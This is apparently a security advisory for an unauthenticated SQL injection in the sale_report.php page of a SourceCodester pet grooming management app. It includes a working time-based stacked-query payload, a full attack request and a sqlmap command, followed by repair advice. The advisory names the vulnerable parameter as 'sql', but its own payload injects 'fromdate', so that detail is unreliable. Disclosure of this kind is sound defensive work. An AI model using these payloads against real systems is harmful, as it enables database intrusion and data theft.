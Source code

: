 # Pet grooming management sale_report.php  v.1.0  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'sale_report.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "sql" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve authorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "sale_report.php" file. This vulnerability stems from insufficient user input validation of the 'sql' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC

## Vulnerability type:

- stacked queries
## Vulnerability location:

- "sql" parameter
## Payload:

```
Parameter: MULTIPART #1* ((custom) POST)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: ------WebKitFormBoundary8VPUBCcI7nhUUX8y
Content-Disposition: form-data; name="fromdate"
2025-09-04';SELECT SLEEP(5)#                                          
------WebKitFormBoundary8VPUBCcI7nhUUX8y
Content-Disposition: form-data; name="todate"
2025-09-13                                                            
------WebKitFormBoundary8VPUBCcI7nhUUX8y
Content-Disposition: form-data; name="search"

------WebKitFormBoundary8VPUBCcI7nhUUX8y--
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#
```

![image-20250917223944.png](./assets/image-20250917223944.png)
## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```
sqlmap -r 1.req  --dbs -v 3 --batch --level 5
//1.req
POST /pet_grooming/admin/sale_report.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 357
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8VPUBCcI7nhUUX8y
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/pet_grooming/admin/sale_report.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary8VPUBCcI7nhUUX8y
Content-Disposition: form-data; name="fromdate"

2025-09-04*
------WebKitFormBoundary8VPUBCcI7nhUUX8y
Content-Disposition: form-data; name="todate"

2025-09-13
------WebKitFormBoundary8VPUBCcI7nhUUX8y
Content-Disposition: form-data; name="search"


------WebKitFormBoundary8VPUBCcI7nhUUX8y--

```
# Attack results

![image-20250917224302.png](./assets/image-20250917224302.png)
# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
